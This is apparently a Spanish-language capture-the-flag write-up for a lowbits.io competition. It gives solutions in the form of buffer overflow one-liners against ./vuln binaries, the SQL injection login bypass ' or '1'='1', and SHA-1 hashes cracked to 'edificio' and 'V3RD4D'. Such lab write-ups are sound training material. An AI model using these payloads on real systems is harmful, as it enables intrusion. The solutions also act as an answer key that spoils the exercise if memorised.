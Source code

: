 Con este numeral se siguió la guía adjunta en la competencia del enlace https://www.lowbits.io/competencia/ obteniendo como resultado que la dirección de memoria a sobre escribir es "" con un padding de 44 bytes. Empleando la siguiente sentencia:
```
python -c "print 44*'a'+'\x26\x85\x04\x08'" |./vuln
```
# Simple Buffer Overflow 64
> Felipe parra
Con este numeral se siguió la guía adjunta en la competencia del enlace https://www.lowbits.io/competencia/ obteniendo como resultado que la dirección de memoria a sobre escribir es "\x47\x06\x40\x00\x00\x00\x00\x00" con un padding de 40 bytes. Empleando la siguiente sentencia:
```
python -c "print 40*'a'+'\x47\x06\x40\x00\x00\x00\x00\x00'" |./vuln
```
# Easy SQL Injection
> Felipe parra
Al primer intento se realiza la autenticación con cualquier nombre de usuario y como contraseña la inyección de:
```sql
' or '1'='1';
```
Así la concatenación no tendrá en cuenta si la contraseña en válida o no.
# Simple Passwrod Hash 1
> Felipe parra
Empleando un diccionario opensource que poseo de aproximadamente de más de 10.000 millones de valores de hash precalculados para sha 1 se buscó dentro de él la coincidencia para el hash affe4c6c966703bac4f60eb51e31cfa9981ca312
cuyo resultado fue "edificio"
# Simple Password Hash 2
> Felipe parra
Empleando un diccionario opensource que poseo de aproximadamente de más de 10.000 millones de valores de hash precalculados para sha 1 se buscó dentro de él la coincidencia para el hash 
85ab41802e6ca22c15392bc72a8c8aa6e4d61bf0
cuyo resultado fue "V3RD4D"
